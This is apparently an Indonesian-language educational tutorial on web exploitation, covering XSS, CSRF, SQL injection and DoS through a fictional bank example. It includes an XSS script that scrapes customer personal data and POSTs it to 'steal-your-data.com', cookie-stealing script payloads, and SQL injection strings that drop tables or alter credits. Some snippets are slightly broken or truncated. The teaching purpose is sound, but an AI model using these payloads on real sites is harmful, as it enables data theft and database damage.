




# Web Exploitation


Web Exploitation adalah sebuah kegiatan melakukan serangan terhadap suatu website. Serangan tersebut memiliki tujuan yang bermacam-macam mulai dari untuk mencuri data berharga, mengekploitasi resource dari web itu, sampai dengan melakukan testing keamanan suatu sistem. Ada bermacam-macam teknik yang bisa dilakukan untuk melakukan serangan terhadap suatu website.

## Cross-Site Scripting (XSS)
Serangan Cross-Site Scripting (XSS) dilakukan berdasarkan fakta bahwa suatu aplikasi web akan mengeksekusi script di browser dari user.

Serangan XSS sendiri memiliki beberapa kategori, dengan tiga kategori paling umum adalah :
- Stored (Kode disimpan di database sebelum dieksekusi)
- Reflected (Kode tidak disimpan di database, tetapi direfleksikan oleh server)
- DOM-based (Kode disimpan dan dieksekusi di browser)

### Stored XSS
Stored XSS mungkin adalah serangan XSS yang paling umum. Serangan ini cukup menarik karena biasanya merupakan XSS yang paling mudah dilacak, tetapi terkadang bisa menjadi salah satu yang paling berbahaya karena seringkali bisa memengaruhi banyak user.


*Salah satu contoh langkah-langkah serangan Stored-XSS*

Objek yang disimpan ke database bisa dilihat banyak user, di beberapa kasus semua user bisa terkena serangan ini jika objek global yang terinfeksi.

#### Sedikit contoh :
Ada suatu perusahaan yang memiliki website. Website tersebut menyediakan layanan keluhan pelanggan. Ada suatu pelanggan yang ingin membuat keluhan dengan isi seperti berikut :

```
I am not happy with the service provided by your bank.
I have waited 12 hours for my deposit to show up in the web application.
Please improve your web application.
Other banks will show deposits instantly.
—Unhappy Customer, support.mega-bank.com
```
Karena sang pelanggan ingin menegaskan suatu kalimat dan tidak ada fitur untuk bold di layanan keluhan tersebut, karena pelanggan tersebut seorang programmer maka sang pelanggan mencoba menggunakan tag `<strong></strong>` untuk mendapatkan font yang ter-bold. Sehingga pesannya menjadi :
```
I am not happy with the service provided by your bank.
I have waited 12 hours for my deposit to show up in the web application.
<strong>Please improve your web application.</strong>
Other banks will show deposits instantly.
—Unhappy Customer, support.mega-bank.com
```
Lalu tak lama CS dari perusahaan tersebut menjawab dengan pesan :
```
Hello, I am Sam with MegaBank support.
I am sorry you are unhappy with our application.
We have a scheduled update next month on the fourth that should increase the speed
at which deposits are reflected in our app.
By the way, how did you bold that text?
—Sam from Customer Support, support.mega-bank.com
```
Dari sini dapat diketahui bahwa input dari fitur tersebut tidak memiliki filter untuk tag html. Maka sang pelanggan tadi dapat melancarkan serangan dengan pesan seperti ini :
```javascript
I am not happy with the service provided by your bank.
I have waited 12 hours for my deposit to show up in the web application.
Please improve your web application.
Other banks will show deposits instantly.
<script>
/*
* Get a list of all customers from the page.
*/
const customers = document.querySelectorAll('.openCases');
/*
* Iterate through each DOM element containing the openCases class,
* collecting privileged personal identifier information (PII)
* and store that data in the customerData array.
*/
const customerData = [];
customers.forEach((customer) => {
    customerData.push({
        firstName: customer.querySelector('.firstName').innerText,
        lastName: customer.querySelector('.lastName').innerText,
        email: customer.querySelector('.email').innerText,
        phone: customer.querySelector('.phone').innerText
    });
});
/*
* Build a new HTTP request, and exfiltrate the previously collected
* data to the hacker's own servers.
*/
    const http = new XMLHttpRequest();
    http.open('POST', 'https://steal-your-data.com/data', true);
    http.setRequestHeader('Content-type', 'application/json');
    http.send(JSON.stringify(customerData);
</script>
—Unhappy Customer, support.mega-bank.com
```
Di pesan tersebut sang pelanggan menyisipkan script untuk mendapat data pelanggan di aplikasi tersebut.

### Reflected XSS
Reflected XSS beroperasi dengan cara yang mirip dengan Stored XSS, tetapi script tidak disimpan ke suatu database. Reflected XSS berefek ke kode dari client di browser langsung tanpa bergantung pada server untuk menyampaikan pesan dengan script untuk dieksekusi.


*Salah satu contoh Reflected-XSS*

Karena tidak disimpan di database, Reflected XSS lebih susah dipahami daripada Stored XSS. Mari kita mulai dari contoh sederhana :

#### Contoh :
Kembali lagi ke perusahaan tadi. Website perusahaan tersebut menyediakan search bar dan kita bisa mencari solusi dari keluhan kita di search bar tersebut. Seorang pelanggan yang juga seorang programmer menggunakan fungsi tersebut. Lalu dia melihat URL dari website tersebut menjadi `support.mega-bank.com/search?query=open+savings+account`.

Lalu ia mencoba mengganti parameter query di URL tersebut menjadi `support.mega-bank.com/search?query=open+check‐ing+account` dan hasil dari pencarian tersebut berisi solusi yang berhubungan dengan open checking account.

Seperti pelanggan sebelumnya, pelanggan ini mencoba agar input yang ia masukkan ter-bold, maka ia menggunakan URL `support.mega-bank.com/search?query=open+<strong>checking</strong>+account` dan yang mengejutkan hasil di halaman tersebut ikut ter-bold.

Sekarang pelanggan tersebut bisa menyisipkan script ke URL tersebut seperti `support.mega-bank.com/search?query=open+<script>alert(test);</script>checking+account` dan akan mengeluarkan alert di halaman hasil pencarian.

Script tersebut pastinya tidak disimpan di server dan server akan membaca dan mengembalikan script itu ke client. Inilah yang disebut Reflected-XSS. Contoh tersebut membutuhkan URL sehingga hacker mudah untuk membagikannya. Sebagian besar Reflected-XSS tidak mudah didistribusikan dan mungkin memerlukan end-user untuk melakukan tindakan tambahan seperti pasting Javascript ke suatu web form.

### DOM-Based XSS
DOM-Based XSS bisa direfleksikan atau disimpan. Serangan ini lebih sulit ditemukan dan dimanfaatkan daripada Stored-XSS maupun Reflected-XSS karena membutuhkan pengetahuan yang mendalam tentang DOM Browser dan Javascript.


*Salah satu contoh DOM-Based XSS*

Perbedaan XSS ini dengan yang lain adalah serangan ini tidak membutuhkan interaksi apapun dengan server. Karena hal ini maka dibutuhkan "source" dan "sink" di browser DOM. source adalah DOM objek yang bisa menyimpan text, sedangkan sink adalah DOM API yang bisa mengeksekusi script yang disimpan sebagai text.

#### Contoh :
Kembali lagi ke perusahaan tadi. Kali ini perusahaan ini menawarkan portal untuk investasi. Halaman `investors.mega-bank.com/listing` memiliki daftar dari berbagai instrumen investasi. Di halaman tersebut ada navigation menu untuk searching dan filtering dari instrumen ini.

Seorang pelanggan yang juga seorang programmer mencari investasi untuk minyak, maka URL berubah menjadi `nvestors.mega-bank.com/listing?search=oil`. Lalu dia menfilter untuk negara AS, maka URL nya berubah menjadi `investors.mega-bank.com/listing#usa` dan halaman akan otomatis scroll ke bagian instrumen berbasis di AS.

Lalu pelanggan tersebut meneliti halaman dari website tersebut dengan inspect element dan menemukan script ini :
```javascript
/*
* Grab the hash object #<x> from the URL.
* Find all matches with the findNumberOfMatches() function,
* providing the hash value as an input.
*/
const hash = document.location.hash;
const funds = [];
const nMatches = findNumberOfMatches(funds, hash);
/*
* Write the number of matches found, plus append the hash
* value to the DOM to improve the user experience.
*/
document.write(nMatches + ' matches found for ' + hash);
```

Script ini memiliki arti bahwa halaman tersebut selalu menempelkan string di belakang tanda hash (#) ke DOM. Maka pelanggan tersebut bisa bermain-main dengan menggunakan URL ini `investors.mega-bank.com/listing#<script>alert(document.cookie);</script>` dimana akan menampilkan cookie dari session.

Di contoh ini pelanggan tidak memerlukan interaksi dengan server karena script Javascript yang melakukan searching maupun filtering.

## Cross Site Request Forgery (CSRF)

Cross Site Request Forgery (CSRF) atau yang biasa dikenal sebagai *one click attack* maupun *session riding* merupakan bentuk eksploitasi website yang dieksekusi atas wewenang korban, tanpa dikehendakinya. CSRF menipu website melalui request dari user yang terpercaya.


*Salah satu contoh serangan CSRF*

Salah satu cara menggunakan serangan CSRF adalah dengan memanipulasi payload dari request dengan jenis GET. Karena jenis HTTP request default dari browser merupakan GET, maka GET request adalah cara yang paling mudah untuk menyerang dengan metode CSRF.

#### Contoh
Kembali ke perusahaan tadi, kali ini seorang pelanggan melakukan transaksi di website perusahaan tersebut. Saat melakukan transaksi, ia melihat URL dari transaksi tersebut yaitu `https://www.mega-bank.com/transfer?to_user=123123&amount=5000`. Karena parameter-parameter transaksi diatur oleh parameter di GET, maka si pelanggan bisa mencari id dari dirinya dan membuat tag image seperti ini :

```html
<!--Unlike a link, an image performs an HTTP GET request right when it loads
into the DOM. This means it requires no interaction from the user loading
the webpage.-->
&amount=10000" width="0" height="0" border="0">
```

Dimana ketiga tag tersebut tersebut terdeteksi oleh browser, maka GET request akan terbentuk ke endpoint tersebut.

## SQL Injection

SQL Injection bekerja dengan memasukkan SQL string ke HTTP payload sehingga sebuah SQL query akan terkesekusi di server.


*Flow SQL Injection*

Karena penggunaan SQL sebagai database sangatlah umum, maka serangan ini cukup sering terjadi. Serangan SQL Injection yang sukses bisa digunakan untuk membaca data sensitif di database, memodifikasi database, mengeksekusi operasi administratif di database, dan di beberapa kasus memberikan command kepada operating system. 

#### Contoh
Kembali ke perusahaan tadi. Kali ini memberikan fitur search. Lalu seorang pelanggan memasukkan `1=1` ke dalam fitur search tersebut dan ternyata website tersebut mengeluarkan semua data yang ada di database. Hal ini terjadi karena `1=1` dianggap selalu memiliki nilai true sehingga di database perintah akan dianggap seperti `SELECT * FROM data where data_name = true`.

Sekarang sang pelanggan bisa bermain-main dengan memasukkan input seperti `123abc; DROP TABLE users;` dimana perintah ini akan menghapus tabel users. Atau memanfaatkan untuk keuntungan pelanggan ini sendiri dengan input `123abc; UPDATE users SET credits = 10000 WHERE user = 123abd;`.

## Denial of Service (DoS)

Serangan DoS merupakan serangan yang bermaksud untuk mematikan sebuah mesin atau jaringan internet, sehingga tidak bisa diakses oleh user. Serangan DoS sendiri biasanya tidak berujung ke pencurian atau kehilangan informasi atau asset lainnya, tetapi bisa menyebabkan korban kehilangan banyak waktu dan uang untuk karena gangguan di layanan. 

Ada beberapa tipe serangan DoS, diantaranya :

### regex DoS (ReDoS) 
Regular-expression-based DoS (regex DoS [ReDoS]) adalah salah satu bentuk DoS yang paling umum hari ini. Regex sendiri biasanya digunakan oleh aplikasi web untuk menvalidasi form field dan memastikan user memberi input seperti yang diinginkan oleh server. Regex sendiri biasanya melakukan parsing dengan cukup cepat. Sehingga jarang fungsi Regex yang memperlambat kinerja website. 

Tetapi Regex sendiri bisa dibuat agar berjalan dengan lambat. Regex seperti ini biasanya disebut dengan *malicious regex*. Salah satu contoh dari regex ini adalah `/^((ab)*)+$/`. Regex tersebut melakukan beberapa hal yaitu :
- Di permulaan baris, mencari `ab`
- `ab` bisa ditemukan dengan kombinasi antara 0 hingga tidak terbatas
- `+` berarti mencari semua kemungkinan kombinasi yang mungkin untuk `ab`
- `$` berarti proses matching dilakukan sampai akhir baris
  
Jika kita memasukkan string `ababababababab` maka regex akan memproses dengan cepat, tapi ketika ditambah eksta `a` dibelakangnya tiba-tiba regex berjalan lambat. Hal ini karena regex harus valid sampai akhir, maka sistem akan melakukan backtrak dan mencari kombinasi yang cocok :

- (abababababababa) tidak valid
- (ababababababa)(ba) tidak valid
- (abababababa)(baba) tidak valid
- banyak iterasi selanjutnya : (ab)(ab)(ab)(ab)(ab)(ab)(ab)(a) tidak valid

Serangan ini sendiri cukup sering dibandingkan apa yang kita pikirkan dan biasanya terjadi ketika user diperbolehkan memasukkan Regex mereka sendiri ke website.

### Logical DoS

Dengan Logical DoS, maka resources dari server dihabiskan oleh user yang tidak sah sehingga user yang sah mengalamu pengurangan performa maupun service yang hilang.



Logical DoS mungkin dilakukan ketika ada service yang cukup menguras resource dilakukan di website, seperti :
- Operasi yang berjalan sinkronous
- Write di database
- SQL Joins
- File Backups
- Operasi logical yang melakukan looping

Skala dari operasi di aplikasi mungkin bergantung di bagaimana user menggunakan aplikasi tersebut. Seorang power user bisa saja melakukan operasi yang banyak menghabiskan resources, sedangkan new user tidak.



Dari data ini kita bisa membuat profile yang memakan resource server via GET /metadata/:userid dan menuliskan script yang mengupload gambar berkali-kali sehingga memengaruhi performa server.

### Distribued DoS (DDoS)

Distribued DoS (DDoS) dilakukan dengan banyak user tidak sah yang melakukan sangat banyak request. Teknik ini melibatkan lebih dari satu penyerang, yang bisa merupakan hacker lain ataupun network bots (botnet). 



Request yang dilakukan pun bisa langsung menuju IP address dari server tanpa menyebutkan API endpoint secara spesifik.

## Sumber

- https://www.nginx.com/resources/library/web-application-security/?fbclid=IwAR0MwQPka0mcXgxJsj_VtoumuwJpD5ojC9SbLxpdLN2qDzFSSvV2nt7YBto#download
- https://mti.binus.ac.id/2018/07/11/cross-site-request-forgery/
- https://owasp.org/www-community/attacks/SQL_Injection
- https://www.paloaltonetworks.com/cyberpedia/what-is-a-denial-of-service-attack-dos